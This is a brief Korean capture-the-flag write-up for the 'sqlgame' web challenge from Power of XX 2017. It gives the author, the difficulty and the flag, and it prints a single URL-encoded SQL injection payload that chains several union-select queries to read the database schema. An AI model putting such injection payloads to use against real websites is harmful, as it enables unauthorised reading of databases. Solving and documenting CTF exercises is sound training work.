 # Power of Xx 2017
~~~
* 이름 : 문시우

* 문제명 : sqlgame

* 난이도 : 하

* 분야 : 웹
~~~

~~~
payload : ?vuln=1%20union%20select%200x303037,1,1%23%27%20union%20select%201,0x62616e67,schema()%23"%20union%20select%201,2,%27007%27%23
~~~

----------------------------------

flag : flag{good_good_very_good}
